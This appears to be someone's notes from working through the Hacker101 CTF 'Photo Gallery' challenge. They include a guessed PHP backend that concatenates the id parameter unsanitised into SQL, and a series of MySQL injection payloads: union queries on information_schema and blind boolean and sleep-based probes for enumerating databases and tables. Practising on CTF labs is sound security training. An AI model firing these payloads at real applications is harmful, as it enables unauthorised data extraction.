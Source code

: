 # Hacker 101 CTF
## Photo Gallery (Moderate)

What might be happening:

```
$query = "SELECT img FROM pictures WHERE id=".$_GET["id"];
if(mysqli_num_rows($query) == 0) {
	// rest of the numbers
	echo "not found";
} else {

	// 1, 2
	echo $query->content;

	// 1.0 works!
	// 2e0 works!

	// could be parsing integers before passing into query

	// 3
	// internal server error
	// /fetch?id=3 and 1=2 returns not found

	// anything non-numeric
	// internal server error

}
```

### SQL injection

Returns error ```/fetch?id='```

Returns first image ```/fetch?id= SUBSTRING('1233', 1, 1)```

Comments are working ```/fetch?id=1 -- asdf```, ```/fetch?id=1 #asdf```, ```/fetch?id=1 /*asdf*/```

Not working ```/fetch?id=1 --asdf``` therefore not PostgreSQL or Microsoft or Oracle. There it is MySQL.

```/fetch?id=2 union SELECT * FROM information_schema.tables``` gives an error, but```/fetch?id=2 union SELECT table_name FROM information_schema.tables``` works. Although not output is reflected.

### Blind Injection

<https://www.perspectiverisk.com/mysql-sql-injection-practical-cheat-sheet/>

```/fetch?id=1 and 1=2```

```/fetch?id=1 union SELECT sleep(10)```

Get current (default) database:

```SELECT DATABASE();```

```/fetch?id=1 AND (SELECT schema_name FROM information_schema.schemata WHERE schema_name='level5')='level5'#```

Get tables of a database:

```SELECT table_name FROM information_schema.tables WHERE table_schema = 'your_database_name';```

```/fetch?id=1 AND substring((SELECT table_name FROM information_schema.tables WHERE table_schema = 'level5' LIMIT 0,1),1,1)='a'#```

